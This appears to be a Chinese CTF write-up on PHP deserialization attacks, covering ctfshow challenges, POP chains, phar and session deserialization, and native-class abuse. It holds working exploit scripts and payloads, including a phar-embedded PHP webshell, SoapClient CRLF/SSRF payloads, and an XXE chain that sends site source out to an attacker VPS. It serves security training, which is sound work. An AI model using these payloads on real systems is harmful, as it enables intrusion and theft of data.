

## 常见魔术方法

```python
__wakeup() //执行unserialize()时，先会调用这个函数
__sleep() //执行serialize()时，先会调用这个函数
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当尝试将对象调用为函数时触发
```


## web259


**SoapClient**

```
SoapClient采用了HTTP作为底层通讯协议，XML作为数据传送的格式，其采用了SOAP协议(SOAP是一
种简单的基于 XML 的协议,它使应用程序通过 HTTP 来交换信息)，其次我们知道某个实例化的类，如果
去调用了一个不存在的函数，会去调用 __call 方法
```

test

```php
<?php

$post_string = "lin=cool";
$a = new SoapClient(null, array('location' => 'http://127.0.0.1:5555/path', 'user_agent' => "lin\r\nContent-Type:application/x-www-form-urlencoded\r\n" . "Content-Length: " . (string)strlen($post_string) . "\r\n\r\n" . $post_string, 'uri' => "aaa"));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->not_exists_function();

```


**CRLF注入攻击**

CRLF是“回车+换行”（\r\n）的简称，其十六进制编码分别为0x0d和0x0a。在HTTP协议中，HTTP header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。所以，一旦我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码。CRLF漏洞常出现在Location与Set-cookie消息头中。

在上面的图中，我们可以看到，SOAPAction是可控的点，我们注入两个\r\n来控制POST请求头

但还有一个问题需要解决，POST数据指定请求头为Content-Type:application/x-www-form-urlencoded，我们需要控制Content-Type，但从上图中可以发现它位于SOAPAtion上方。
继续往上，可以发现User-Agent位于Content-Type上方，这个位置也可以进行注入，所以我们再User-Agent进行注入

题目代码如下

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

flag.php的内容如下

```

$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

生成反序列化内容如下

```php
<?php
$post_string = "token=ctfshow";
$a = new SoapClient(null,array('location'=>'http://127.0.0.1/flag.php', 'user_agent'=>"lin\r\nContent-Type:application/x-www-form-urlencoded\r\n"."X-Forwarded-For: 127.0.0.1,127.0.0.1\r\n"."Content-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string, 'uri'=>"aaa"));
echo urlencode(serialize($a));
```

然后触发反序列化后，访问flag.txt即可得到flag


## web262

index.php

```php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

message.php

```php
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

最后的exp

```php
<?php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f ="1";
$m = "2";
$t = 'fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';


$msg = new message($f,$m,$t);
$umsg = str_replace('fuck', 'loveU', serialize($msg));
echo $umsg;

var_dump(unserialize($umsg));
```


## web263


存在一个源码泄露www.zip,查看关键代码

session反序列化的基础知识

```
php引擎的存储格式是键名|serialized_string，而php_serialize引擎的存储格式是serialized_string。如果程序使用两个引擎来分别处理的话就会出现问题

session.serialize_handler( 5.5.4前默认是php；5.5.4后改为php_serialize)存在以下几种

    php_binary 键名的长度对应的ascii字符+键名+经过serialize()函数序列化后的值
    php 键名+竖线（|）+经过serialize()函数处理过的值
    php_serialize 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化

```

exp

```php
<?php
class User{
    public $username = 'a.php';
    public $password = '<?php system("tac flag.php");?>';
    public $status='a';

}
$a=new User();
echo base64_encode('|'.serialize($a));
```

带着生成的数据放到limit里面刷新index和check.php即可写入木马


## web265

变量引用绕过

```
<?php
class ctfshowAdmin{
    public $token='lin';
    public $password;
    public function __construct($t,$p){
        $this->token=&$this->password;
    }
}
$pop=new ctfshowAdmin("a","q");
echo urlencode(serialize($pop));
```


## web266

对大写写不敏感

```
<?php
class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$pop=new ctfshow();
echo serialize($pop);
```

直接用

```
O:7:"Ctfshow":2:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";}
```


## web276

这个题就是写一个phar包，然后触发在file_put_content里面触发phar反序列化

生成phar包

```
<?php


class filter{
    public $filename = "1|cat f*";
    public $filecontent;
    public $evilfile = true;
    public $admin = true;
}

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");

$o = new filter();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```


```
POST /?fn=phar://phar.phar/ HTTP/1.1
Host: 0171bacb-438c-478a-a8e4-8a4bc36046f9.challenge.ctf.show
User-Agent: python-requests/2.28.§1§
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 222


```


```
POST /?fn=phar.phar HTTP/1.1
Host: 0171bacb-438c-478a-a8e4-8a4bc36046f9.challenge.ctf.show
User-Agent: python-requests/2.28.9
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 222

data
```

脚本如下

```python
import requests
import threading
import base64
url = 'http://b1238473-a3bb-431f-a39e-3cd285bcb95e.chall.ctf.show/'

f = open('./phar.phar', 'rb')

data = f.read()
flag = False
proxy={"http":"127.0.0.1:8081"}
def work1():
    requests.post(url+"?fn=phar.phar", data=data,proxies=proxy)


def work2():
    global flag
    r = requests.post(url+"?fn=phar://phar.phar/", data="")
    if "flag{" in r.text and flag is False:
        print(base64.b64encode(r.text.encode()))
        flag = True

while flag is False:
    a = threading.Thread(target=work1)
    b = threading.Thread(target=work2)
    a.start()
    b.start()

```


## web803

生成phar包

```
<?php 
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```

exp

```
import requests
url="http://fb4a2719-ca0e-47f2-9c7f-10061565ef8f.challenge.ctf.show/"
data1={'file':'/tmp/a.phar','content':open('shell.phar','rb').read()}
data2={'file':'phar:///tmp/a.phar/a','content':'123','1':'system("cat f*");'} 
requests.post(url,data=data1)
r=requests.post(url,data=data2)
print(r.text)
```


## throw绕过

### easy unserialize

ctfshow平台卷王杯的一个题目

__destruct函数的GC回收机制

参考链接：https://www.jianshu.com/p/d73b3ca418b0

在PHP中，没有任何变量指向这个对象时，这个对象就成为垃圾。PHP会将其在内存中销毁；这是PHP 的GC垃圾处理机制，防止内存溢出。

__destruct /unset

        __destruct() 析构函数，是在垃圾对象被回收时执行。
    
        unset 销毁的是指向对象的变量，而不是这个对象。

由于有这个throw存，所以$a进行反序列化的时候不会执行__destruct()，

但是如果，我们在throw之前加上一个$a=NULL，这样的话就是主动去摧毁这个类，那么在这里就会调用__destruct()。

那么这个题目绕过throw的方法就是主动去摧毁这个类。

由于反序列化时从左到右的顺序进行重构的，所以我们可以构建一个数组，第一个元素是new Demo，第二个元素的序号为0。

构造一下结构：

```
a:2:{i:0;O:4:"Demo":0:{}i:0;N;}
```

利用payload生成：

```php
<?php
highlight_file(__FILE__);
class Demo{
    public function __destruct()
    {
        echo "destruct
";
    }
}
$n=new Demo();
$b=null;
$c=array($n,$b);
echo serialize($c);
```

注意：

第一个为实例化的对象，第二个为另外随便的一个值(这里赋null以外的值都可以)，然后会得到a:2:{i:0;O:4:"Demo":0:{}i:1;N;}，将其改为 a:2:{i:0;O:4:"Demo":0:{}i:0;N;}也就是将第二个反序列化的序号改为0，这样就实现了对Demo这个对象的重新赋值，达到了提前是对象摧毁的效果。

分析反序列化的链子

1、one::__destruct()

首先我们进入了one::__destruct()

```
public function __destruct() {
        @$this->object->add();
    }
```

很明显，这个在这几个类的函数中没有add()

所以利用魔术方法就是__call()来调用不可访问(不存在)的方法。

那么就是：

$a=new one();

$a->object=new second();

这个时候进入second::__call()

2、second::__call()

```
public function __call($func, $args) {
        call_user_func([$this, $func."Me"], $args);
    }
```

这个里面有一个自定义函数：call_user_func()函数，

参考链接：https://blog.csdn.net/u014532717/article/details/56015077

__call()函数中的两个参数，第一个指的是不可访问的变量或者函数的名称也就是add

第二个是传入的参数。

数组参数中，第一个参数是访问的类，第二个参数是访问的函数

那么这个[$this, $func."Me"]中，$this指的是second这个类，$func."Me"就很明显指的是addMe()函数

3、second::addMe()

```
protected function addMe() {
        return "Wow you have sovled".$this->filename;
    }
```

$this->filename很明显是一个字符串，所以应该是调用一个__toString()方法。

这个时候需要给filename赋值，需要赋的是one::__toString()里面的值，

所以

$a->object->filename=new one();

4、one::__toString()

```
public function __toString() {
        return $this->object->string;
    }
```

$this->object->string是调用一个类的私有属性，所以应该是__get()

$a->object->filename->object=new third($name);

5、 third::__get()

```
public function __get($name) {
        $var = $this->$name;
        $var[$name]();
    }
```

分析一下，变量var的值为  this−>name，也就是$this->string，然后调用一个方法，其中name的值不可控，var的值可以通过修改string的属性来控制，也就是说这里就能动态调用了。

梳理一下链子如下

one::destruct => second::call => second::addMe => one::toString => third::get => one:MeMeMe

这个时候的payload，

```
<?php
class one {
    public $object;
}
 
 
class second {
    public $filename;
}
 
 
class third {
    private $string;
    
    public function __construct($string) {
    $this->string = $string;
}
}}
 
$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third();
 
echo urlencode(serialize($a));
```

在本地调试，链子执行的情况正如所预期的那样，

在one:MeMeMe中拿到flag

```
public function MeMeMe() {
            array_walk($this, function($fn, $prev){
                if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                    global $talk;
                    echo "$talk"."</br>";
                    global $flag;
                    echo $flag;
                }
            });
        }
```

array_walk函数的作用就是遍历自定义函数，其中$fn的值为成员的值，prev为成员变量的名字

在third::__get()里面怎么调用one::MeMeMe，这里使用数组调用类方法

使 $var=array('$name'=>[new one(),"MeMeMe"]); 就可以 $var[$name]=one::MeMeMe();

所以：

$a->object->filename->object=new third(['string'=>[new one(),'MeMeMe']]);

然后再exp里面添加上上面成员属性就可以了，这里可以看到前面那个回调函数也使用了这一方法

最终的exp：

```
<?php
class one {
    public $object;
    public $year_parm=array(0=>"Happy_func");
}
 
 
class second {
    public $filename;
}
 
 
class third {
    private $string;
 
 
     public function __construct($string) {
    $this->string = $string;
}
}}
 
 
$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third(['string'=>[new one(),'MeMeMe']]);
 
$n=null;
$payload=array($a,$n);
 
echo urlencode(serialize($payload));
```

最后把i:1改成i:0就行了

```
a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A8%3A%22filename%22%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BN%3Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7Ds%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7D%7Ds%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A0%3BN%3B%7D
```


## 原生类反序列化利用

### SoapClient

这个往往就是用于ssrf的

```
<?php
$a = new SoapClient(null,array('location'=>'http://49.233.121.53:54/aaa', 'uri'=>'http://49.233.121.53:54'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

#### bestphp's revenge

题目给出了源码

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?> array(0) { }
```

经过扫描发现flag.php

```

only localhost can get flag!session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!

```

可见当REMOTE_ADDR等于127.0.0.1时，就会在session中插入flag，就能得到flag。很明显了，要利用ssrf。

但是这里并没有明显的ssrf利用点，所以我们想到利用PHP原生类SoapClient触发反序列化导致SSRF。并且，由于flag会被插入到session中，所以我们就一定需要携带一个cookie即PHPSESSID去访问它来生成这个session文件。

写出最后的POC：

```
<?php
$target = "http://127.0.0.1/flag.php";
$attack = new SoapClient(null,array('location' => $target,
    'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",
    'uri' => "123"));
$payload = urlencode(serialize($attack));
echo $payload;
```

生成payload：

```
O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D

```

这里这个POC就是利用CRLF伪造本地请求SSRF去访问flag.php，并将得到的flag结果保存在cookie为 `PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4` 的session中。

然后，我们就要想办法反序列化这个对象，但这里有没有反序列化点，那么我们怎么办呢？我们在题目源码中发现了session_start();，很明显，我们可以用session反序列化漏洞。但是如果想要利用session反序列化漏洞的话，我们必须要有 `ini_set()` 这个函数来更改 `session.serialize_handler` 的值，将session反序列化引擎修改为其他的引擎，本来应该使用ini_set()这个函数的，但是这个函数不接受数组，所以就不行了。于是我们就用session_start()函数来代替，即构造 `session_start(serialize_handler=php_serialize)` 就行了。我们可以利用题目中的 `call_user_func($_GET['f'], $_POST);` 函数，传入GET：/?f=session_start、POST：serialize_handler=php_serialize，实现 `session_start(serialize_handler=php_serialize)` 的调用来修改此页面的序列化引擎为php_serialize。

所以，我们第一次传值先注入上面POC生成的payload创建并得到我们的session：


此时，我们成功将我们php原生类SoapClient构造的payload传入了 `PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4` 的session中，当页面重新加载时，就会自动将其反序列化。但此时还不会触发SSRF，需要触发 `__call` 方法来造成SSRF，该方法在访问对象中一个不存在的方法时会被自动调用，所以单纯反序列化还不行，我们还需要访问该对象中一个不存在的方法，这里就用到了如下这段代码：

```
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

我们可以利用extract函数将变量b覆盖为call_user_func，这样，就成了：

```
call_user_func(call_user_func, array(reset($_SESSION), 'welcome_to_the_lctf2018'));
```

call_user_func()函数有一个特性，就是当只传入一个数组时，可以用call_user_func()来调用一个类里面的方法，call_user_func()会将这个数组中的第一个值当做类名，第二个值当做方法名。

这样也就是会访问我们构造的session对象中的welcome_to_the_lctf2018方法，而welcome_to_the_lctf2018方法不存在，就会触发 `__call` 方法，造成ssrf去访问flag.php。

所以我们第二次传参如下：


最后，我们第三次传参，用我们POC里面自己设置的cookie（`PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4`）去访问这个页面，`var_dump($_SESSION);` 会将 `PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4` 的这个session内容输出出来，即可得到flag：


### Error/Exception

可以用于绕过哈希比较

```
<?php
$a = new Error("payload",1);$b = new Error("payload",2); //要在一行
echo $a;
echo "<br>";
echo $b;
echo "<br>";
if($a != $b)
{
    echo "a!=b";
}
echo "<br>";
if(md5($a) === md5($b))
{
    echo "md5相等"."<br>";
}
if(sha1($a)=== sha1($b)){
    echo "sha1相等";
}
```


#### [2020 极客大挑战]Greatphp（nss）

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }

        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

可见，需要进入eval()执行代码需要先通过上面的if语句：

```
if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) )
```

这个乍看一眼在ctf的基础题目中非常常见，一般情况下只需要使用数组即可绕过。但是这里是在类里面，我们当然不能这么做。

这里的考点是md5()和sha1()可以对一个类进行hash，并且会触发这个类的 `__toString` 方法；且当eval()函数传入一个类对象时，也会触发这个类里的 `__toString` 方法。

所以我们可以使用含有 `__toString` 方法的PHP内置类来绕过，用的两个比较多的内置类就是 `Exception` 和 `Error` ，他们之中有一个 `__toString` 方法，当类被当做字符串处理时，就会调用这个函数。

根据刚才讲的Error类和Exception类中 `__toString` 方法的特性，我们可以用这两个内置类进行绕过。

由于题目用preg_match过滤了小括号无法调用函数，所以我们尝试直接 `include "/flag"` 将flag包含进来即可。由于过滤了引号，我们直接用url取反绕过即可。

POC如下：

```
<?php

class SYCLOVER {
    public $syc;
    public $lover;
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }

        }
    }
}

$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    

$str = "?><?=include $_GET[_]?>"; 
*/
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>
```

这里 `$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";` 中为什么要在前面加上一个 `?>` 呢？因为 `Exception` 类与 `Error` 的 `__toString` 方法在eval()函数中输出的结果是不可能控的，即输出的报错信息中，payload前面还有一段杂乱信息“Error: ”：

```
Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}
```

进入eval()函数会类似于：`eval("...Error: <?php payload ?>")`。所以我们要用 `?>` 来闭合一下，即 `eval("...Error: ?><?php payload ?>")`，这样我们的payload便能顺利执行了。

上面的取反生成脚本如下

```php
<?php


  /*author yu22x*/

  fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```


### SimpleXMLElement 

SimpleXMLElement 这个内置类用于解析 XML 文档中的元素。

官方文档中对于SimpleXMLElement 类的构造方法 `SimpleXMLElement::__construct` 的定义如下




可以看到通过设置第三个参数 data_is_url 为 `true`，我们可以实现远程xml文件的载入。第二个参数的常量值我们设置为`2`即可。第一个参数 data 就是我们自己设置的payload的url地址，即用于引入的外部实体的url。

这样的话，当我们可以控制目标调用的类的时候，便可以通过 SimpleXMLElement 这个内置类来构造 XXE。

#### [SUCTF 2018]Homework

进入题目，随便注册一个账号，登录作业平台。看到一个 `calc` 计算器类的代码。有两个按钮，一个用于调用 `calc` 类实现两位数的四则运算。另一个用于上传文件，提交代码。


`calc` 计算器类的代码为：

```
<?php 
class calc{
    function __construct__(){
        calc();
    }

    function calc($args1,$method,$args2){
        $args1=intval($args1);
        $args2=intval($args2);
        switch ($method) {
            case 'a':
                $method="+";
                break;

            case 'b':
                $method="-";
                break;

            case 'c':
                $method="*";
                break;

            case 'd':
                $method="/";
                break;

            default:
                die("invalid input");
        }
        $Expression=$args1.$method.$args2;
        eval("\$r=$Expression;");
        die("Calculation results:".$r);
    }
}
?>
```

我们点击calc按钮，计算2+2=4，我们观察url处的参数，再结合`calc`计算器类的代码可知module为调用的类，args为类的构造方法的参数：


所以我们可以通过这种形式调用PHP中的内置类。这里我们通过调用 SimpleXMLElement 这个内置类来构造 XXE。

首先，我们在vps（47.xxx.xxx.72）上构造如下evil.xml、send.xml和send.php这三个文件。

evil.xml：

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % remote SYSTEM "http://47.xxx.xxx.72/send.xml">
%remote;
%all;
%send;
]>
```

send.xml：

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://47.xxx.xxx.72/send.php?file=%file;'>">
```

send.php：

```
<?php 
file_put_contents("result.txt", $_GET['file']) ;
?>
```

然后在url中构造如下：

```
/show.php?module=SimpleXMLElement&args[]=http://47.xxx.xxx.72/evil.xml&args[]=2&args[]=true

```

这样目标主机就能先加载我们vps上的evil.xml，再加载send.xml。

如下图所示，成功将网站的源码以base64编码的形式读取并带出到result.txt中：


### DirectoryIterator 

DirectoryIterator 类提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。

DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。

测试代码：

```
// test.php
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

我们输入 `/?whoami=glob:///*` 即可列出根目录下的文件：


### GlobIterator

GlobIterator和另外两个类差不多，不过glob是GlobIterator类本身自带的，因此在遍历的时候，就不需要带上glob协议头了，只需要后面的相关内容

```php
?a=GlobIterator&b=f[a-z]*
```


### SplFileObject

SplFileObject类为文件提供了一个面向对象接口，也就是这个类可以用来读文件

```php
<?php
$a = $_GET['a'];
$b = $_GET['b'];
echo new $a($b);
```

我们传入?a=SplFileObject&b=flag.php，即可读取我们flag.php里面的内容，但是他只能读一行！！！


除了直接传文件名之外，我们是不是可以联系到php伪协议呢？不妨来试试，传入如下payload

```php
?a=SplFileObject&b=php://filter/convert.base64-encode/resource=flag.php
```


#### 2021浙江网络安全省赛Web2

```
<?php
error_reporting(0);
class A1{
    public $tmp1;
    public $tmp2;
    public function __construct()
    {
        echo "Enjoy Hacking!";
    }
    public function __wakeup()
    {
        $this->tmp1->hacking();
    }
}
class A2
{
    public $tmp1;
    public $tmp2;
    public function hacking()
    {
        echo "Hacked By Bi0x";
    }
}
class A3
{
    public $tmp1;
    public $tmp2;
    public function hacking()
    {
        $this->tmp2->get_flag();
    }
}
class A4
{
    public $tmp1='1919810';
    public $tmp2;
    public function get_flag()
    {
        echo "flag{".$this->tmp1."}";
    }
}
class A5
{
    public $tmp1;
    public $tmp2;
    public function __call($a,$b)
    {
        $f=$this->tmp1;
        $f();
    }
}
class A6
{
    public $tmp1;
    public $tmp2;
    public function __toString()
    {
        $this->tmp1->hack4fun();
        return "114514";
    }
}
class A7
{
    public $tmp1="Hello World!";
    public $tmp2;
    public function __invoke()
    {
        echo "114514".$this->tmp2.$this->tmp1;
    }
}
class A8
{
    public $tmp1;
    public $tmp2;
    public function hack4fun()
    {
        echo "Last step,Ganbadie~";
        if(isset($_GET['DAS']))
        {
            $this->tmp1=$_GET['DAS'];
        }
        if(isset($_GET['CTF']))
        {
            $this->tmp2=$_GET['CTF'];
        }
        echo new $this->tmp1($this->tmp2);
    }
}
if(isset($_GET['DASCTF']))
{
    unserialize($_GET['DASCTF']);
}
else{
    highlight_file(__FILE__);
}
```


```
<?php

class A1{
    public $tmp1;
    public $tmp2;
    public function __construct()
    {
        $this->tmp1 = new A3();
        echo "Enjoy Hacking!"."<br/>";
    }
    public function __wakeup()
    {
        $this->tmp1->hacking();
    }
}
class A2
{
    public $tmp1;
    public $tmp2;
    public function hacking()
    {
        echo "Hacked By Bi0x";
    }
}
class A3
{
    public $tmp1;
    public $tmp2;
    public function __construct()
    {
        $this->tmp2 = new A4();
    }
    public function hacking()
    {
        
        $this->tmp2->get_flag();
    }
}
class A4
{
    public $tmp1;
    public $tmp2;
    public function __construct()
    {
        $this->tmp1 = new A6();
    }
    public function get_flag()
    {
        echo "flag{".$this->tmp1."}";
    }
}
class A5
{
    public $tmp1 = "";
    public $tmp2;
    public function __call($a,$b)
    {
        $f=$this->tmp1;
        $f();
    }
}
class A6
{
    public $tmp1;
    public $tmp2;
    public function __construct()
    {
        $this->tmp1 = new A8();
    }
    public function __toString()
    {
        $this->tmp1->hack4fun();
        return "114514";
    }
}
class A7
{
    public $tmp1="Hello World!";
    public $tmp2;
    public function __invoke()
    {
        echo "114514".$this->tmp2.$this->tmp1;
    }
}
class A8
{
    public $tmp1 ;
    public $tmp2 ;
    public function hack4fun()
    {
        echo "Last step,Ganbadie~";
        if(isset($_GET['DAS']))
        {
            $this->tmp1=$_GET['DAS'];
        }
        if(isset($_GET['CTF']))
        {
            $this->tmp2=$_GET['CTF'];
        }
        echo new $this->tmp1($this->tmp2);
    }
}

$a = new A1();
echo urlencode(serialize($a));
```

得到部分payload：

```
O%3A2%3A%22A1%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A3%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BO%3A2%3A%22A4%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A6%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A8%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D
```

将上方的payload传入DASCTF参数即可

这个时候当字符串反序列化到`A8`这个类中，需要我们传入`DAS`以及`CTF`参数，其中关键代码如下：

```
echo new $this->tmp1($this->tmp2);
```

因此我们先把flag文件名找出来，我们可以利用DirectoryIterator类结合glob遍历目录，得到flag文件名为`flaggggggggggg.php`

```
